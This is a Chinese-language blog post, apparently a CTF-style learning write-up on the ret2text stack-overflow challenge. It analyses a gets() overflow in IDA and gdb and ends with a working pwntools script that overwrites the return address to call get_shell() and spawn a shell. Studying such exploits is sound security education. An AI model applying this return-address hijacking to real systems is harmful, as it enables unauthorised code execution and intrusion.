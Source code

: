 ```yaml
---
layout:     post
title:      pwn学习（一）：栈溢出覆盖返回地址
subtitle:   利用栈溢出获取控制权
date:       2021-08-07
author:     Hongtai S
header-img: img/5.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - pwn
---
```

# 栈溢出覆盖返回地址 #


## ret2text题目分析 ##

将文件ret2text拖入Ida中查看还原的C代码：

![1.PNG](https://i.loli.net/2021/08/07/5DFHOYzJjEMqRpt.png)

看到可以的函数vulnerable()，跟进查看：

![2.PNG](https://i.loli.net/2021/08/07/nEvxPSeLVlBYT9U.png)

发现不安全的gets()函数,能够利用栈溢出覆盖返回地址以获取一次劫持程序执行流的机会。

继续寻找能够利用的跳转地址，发现程序中包含get_shell()函数，跟进：

![3.PNG](https://i.loli.net/2021/08/07/J6ucoV7dN4yfRMS.png)

![4.PNG](https://i.loli.net/2021/08/07/GOHkcoy9vKeudPp.png)

刚好是能够获取目标系统的shell函数，入口地址为0x08048522，将返回地址覆盖为入口地址即可成功获取shell
在Ida中显示函数vulnerable()的buffer字符串与ebp的距离为10h，栈中返回地址前需要填充10h(与ebp距离) + 4(ebp)大小的字符串也就是"AAAA" * 4 + "BBBB"，最后加上get_shell()的入口地址0x08048522。

gdb动态调试验证：

跟进vulnerable()函数，输入字符串AAAA后查看栈中情况：

![5.PNG](https://i.loli.net/2021/08/07/iBRWqTX86PlJdGv.png)

![6.PNG](https://i.loli.net/2021/08/07/BqTnkwOFS8pX7VE.png)

可以看到从字符串起止地址覆盖到返回地址总共需要20个字符，与实际情况相符。

## 编写脚本 ##

 ```python
from pwn import *

#远程连接服务器使用remote函数
#io = remote("ip", port)

#使用本地进程测试使用process函数
io = process("ret2text")

#接受程序的一行打印
io.recvline()

#构造覆盖返回地址的字符串，注意要将数据转为字节的形式
payload = b'AAAA' * 5 + p32(0x8048522)

#发送构造的数据
io.sendline(payload)

#获取shell交互权限
io.interactive()

```

运行脚本成功获取shell权限
![7.PNG](https://i.loli.net/2021/08/07/vStumLenk1B2C4Z.png)




